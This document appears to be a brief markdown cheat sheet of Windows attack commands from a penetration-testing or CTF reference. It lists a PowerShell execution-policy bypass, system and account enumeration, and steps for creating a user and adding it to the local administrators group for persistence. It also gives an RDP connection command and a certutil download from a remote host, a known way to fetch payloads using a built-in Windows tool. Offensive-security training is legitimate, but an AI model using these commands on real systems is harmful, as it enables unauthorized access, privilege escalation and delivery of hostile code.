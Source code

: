 * #### Powershell
    . Bypass ExecutionPolicy (cannot be loaded because running scripts is disabled on this system)

    ```
    powershell -ep bypass
    ```

* #### CMD
    ```powershell
    whoami

    systeminfo

    net user

    net user username password /add <create new username with password>

    net localgroup administrators user /add <add user to administrator group>

    net localgroup administrators <list administrators>

    wmic useraccount get name,sid

    cd $env:USERPROFILE/DESKTOP

    certutil.exe https://lolbas-project.github.io/lolbas/Binaries/Certutil/
    ```

    ```
    xfreerdp /u:username /v:ip_address

    certutil.exe -urlcache  -f http://192.168.1.1:8000/filename outputfilename
    ```  
